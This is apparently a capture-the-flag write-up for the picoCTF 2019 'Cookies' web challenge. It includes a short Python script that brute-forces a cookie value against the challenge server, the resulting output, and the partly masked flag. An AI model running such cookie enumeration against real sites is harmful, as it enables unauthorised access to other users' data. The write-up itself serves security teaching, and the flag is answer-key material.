

# Cookies

Tags: picoCTF 2019, Web Exploitation

| Author    | Point     |
| --------- | --------- |
| MADSTACKS | 40 points |

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solve

When we look at the web page, there is an input form.


I tried entering the appropriate values.


-1 was saved in cookie. Changing this to 1 made it a special cookie, but I didn't get the flag.




Since it is assumed that it is an index, I wrote a script that uses brute force.

```python
import requests

url = "http://mercury.picoctf.net:29649/check"

s = requests.Session()

for i in range(1000):
    cookies = {"name": f"{i}"}
    r = s.get(url, cookies=cookies)
    if "picoCTF" in r.text:
        print(r.text)
        break
```

As a result, I got a flag.

```
$ python3 solver.py

[snip]
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_********}</code></p>
        </div>
[snip]
```

## Flag

```
picoCTF{3v3ry1_l0v3s_c00k135_********}
```
